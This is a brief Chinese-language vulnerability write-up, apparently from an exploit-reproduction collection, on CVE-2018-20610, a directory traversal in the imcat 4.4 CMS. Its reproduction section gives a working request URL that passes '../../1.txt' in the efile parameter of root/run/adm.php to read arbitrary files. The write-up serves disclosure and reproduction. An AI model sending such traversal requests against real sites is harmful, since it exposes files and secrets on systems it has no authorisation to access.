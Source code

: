 ```yaml
---
title: （CVE-2018-20610）Imcat 4.4 敏感信息泄露
id: zhfly2975
---
```


# （CVE-2018-20610）Imcat 4.4 敏感信息泄露

## 一、漏洞简介

imcat是一套基于PHP的开源建站系统。 imcat 4.4版本中的root/run/adm.php文件存在目录遍历漏洞。目前尚无此漏洞的相关信息，请随时关注CNNVD或厂商公告。

## 二、漏洞影响

imcat 4.4

## 三、复现过程

先在D盘创建1.txt

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

```
http://www.0-sec.org/root/run/adm.php?admin-ediy&part=edit&dkey=runs&dsub=&efile=../../1.txt&dialog=1546054963116&lang=cn 
```

![](../img/841b6d0af7ed1e66c899bca37d6e664e.png)

## 参考链接

> https://github.com/AvaterXXX/CVEs/blob/master/imcat.md